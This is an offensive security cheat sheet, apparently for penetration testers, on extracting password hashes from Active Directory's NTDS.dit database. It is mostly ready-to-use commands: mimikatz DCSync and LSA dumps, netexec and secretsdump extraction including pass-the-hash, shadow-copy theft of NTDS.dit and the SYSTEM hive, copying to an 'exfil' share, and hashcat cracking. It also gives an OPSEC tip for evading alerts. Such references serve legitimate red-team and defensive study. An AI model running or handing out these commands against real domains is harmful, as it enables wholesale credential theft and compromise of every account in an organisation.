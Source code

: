 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

* DCSync only one user
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```
* DCSync all users of the domain
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.


## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

* [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)
  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```
* [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)
  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```
* [netexec VSS module](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit)
  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```


## Extract hashes from ntds.dit

then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.


## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

* Dump adamntds.dit with Shadow copy using `vssadmin.exe`
    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

* Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`
    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

* Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```


## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://techanv-bot.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)


## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

* List users with "Store passwords using reversible encryption" enabled
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT. 


## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```


## References

* [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
* [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
* [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)